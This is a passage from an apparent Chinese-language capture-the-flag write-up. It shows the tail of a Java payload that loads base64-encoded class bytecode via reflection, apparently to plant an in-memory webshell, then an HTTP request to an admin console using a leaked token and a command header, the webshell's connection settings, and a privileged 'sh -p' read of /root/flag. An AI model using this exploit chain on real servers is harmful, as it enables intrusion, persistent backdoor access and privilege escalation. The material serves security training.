QS9AARZAypTtgDGwACuwACusE0TASe4AOhMKxMBKQO9AHK2ASUBA70ABLYAxk4ttgBwEwErBL0AclkDEhBTtgElLQS9AARZAypTtgDGwACuwACusAABAAAALAAtABkAAQGCAAAABgABbQcAGQGBAAAACgAEANcAPwBBAD0ACQCnAKgAAgGAAAAAbAAEAAYAAAA+uwEtWbcBLky7ATBZKrcBM027ATVZLLcBOE4RAQC8CDoELRkEtgE8WTYFmwAPKxkEAxUFtgFAp//rK7YBRLAAAAABAYIAAAAcAAL/ACEABQcArgcBLQcBMAcBNQcArgAA/AAXAQGBAAAABAABAA4ACABaAEoAAgGAAAAAHQACAAMAAAARKiu4AUhNLAS2AUssKrYBTLAAAAAAAYEAAAAEAAEAGQAIAUUBRgACAYAAAABPAAMABAAAACgqtgBwTSzGABksK7YBUk4tBLYBSy2wTiy2AVVNp//puwFOWSu3AVa/AAEACQAVABYBTgABAYIAAAANAAP8AAUHAHJQBwFOCAGBAAAABAABAU4AKABJAEoAAgGAAAAAGgAEAAIAAAAOKisDvQByA70ABLgA47AAAAAAAYEAAAAIAAMAPwA9AEEAKQBJAOEAAgGAAAABIwADAAkAAADKKsEAcpkACirAAHKnAAcqtgBwOgQBOgUZBDoGGQXHAGQZBsYAXyzHAEMZBrYBWjoHAzYIFQgZB76iAC4ZBxUIMrYBWyu2AV6ZABkZBxUIMrYBYr6aAA0ZBxUIMjoFpwAJhAgBp//QpwAMGQYrLLYAuDoFp/+pOgcZBrYBVToGp/+dGQXHAAy7AD9ZK7cBY78ZBQS2AL4qwQBymQAaGQUBLbYAxrA6B7sAjFkZB7YBZrcBZ78ZBSottgDGsDoHuwCMWRkHtgFmtwFnvwADACUAcgB1AD8AnACjAKQAPQCzALoAuwA9AAEBggAAAC8ADg5DBwBy/gAIBwByBwC6BwBy/QAXBwFpASwF+QACCEIHAD8LDVQHAD0ORwcAPQGBAAAACAADAD8AQQA9AAgBagAXAAEBgAAAABUAAgAAAAAACbsAAlm3AWtXsQAAAAAAAQAcABcAAQGAAAAAzgAGAAsAAACrEwFtuADoTCsTAW+2AVJNLAS2AXIsAbYBTE4SchMBdAO9AHK2ASU6BBkEEgQBwAF2tgDGOgUttgBwEwF4BL0AclkDEwFKU7YBJToGEnITAXq2AVI6BxkGLQS9AARZAxkHU7YAxjoILbYAcBMBfAa9AHJZAxIEU1kEsgF/U1kFEgRTtgElOgkZCS0GvQAEWQMqtgBwU1kEGQhTWQUZBVO2AMZXpwAIOgqnAAOxAAEAAACiAKUAGQABAYIAAAAJAAL3AKUHABkEAAA=");
                Class clazz = (Class) defineClass.invoke(Thread.currentThread().getContextClassLoader(), bytecode, 0, bytecode.length);
                clazz.newInstance();
            } catch (Exception ex) {
                throw new RuntimeException(ex);
            }

        } catch (IllegalAccessException | NoSuchFieldException e) {
            throw new RuntimeException(e);
        }
        try {
            if (clazz != null) {
                clazz.getConstructor().newInstance();
            } else {
                System.err.println("Class object is null, cannot initialize.");
            }
        } catch (Exception initException) {
            throw new RuntimeException("Failed to initialize class instance.", initException);
        }
    }
}
```

### 发送 Payload

发送 Payload：

```http
POST /internal/api/v1/admin/console HTTP/1.1
Host: localhost:8080
Sec-Fetch-Dest: empty
Origin: http://localhost:8080
X-Admin-Token: N3tW4tch3r_Sup3r_S3cr3txxx_K3y_2024
Sec-Fetch-Site: same-origin
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
X-Authorization: whoami
Content-Type: text/plain
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua-platform: "Windows"
Accept: */*
Referer: http://localhost:8080/
Accept-Encoding: gzip, deflate, br, zstd
Sec-Fetch-Mode: cors
sec-ch-ua: "Google Chrome";v="143", "Chromium";v="143", "Not A(Brand";v="24"
sec-ch-ua-mobile: ?0
Content-Length: 156


```



```text
 基础信息:
加密器: JAVA_AES_BASE64
密码: fqKXy
密钥: BMyoah
请求路径: /*
请求头: Accept: wscdabQzRkKpUYA
```





```bash
/app/ >/usr/bin/sh -p -c 'cat /root/flag'

flag{e4d07e6a-7742-410f-9034-9fa9893b6698}
```
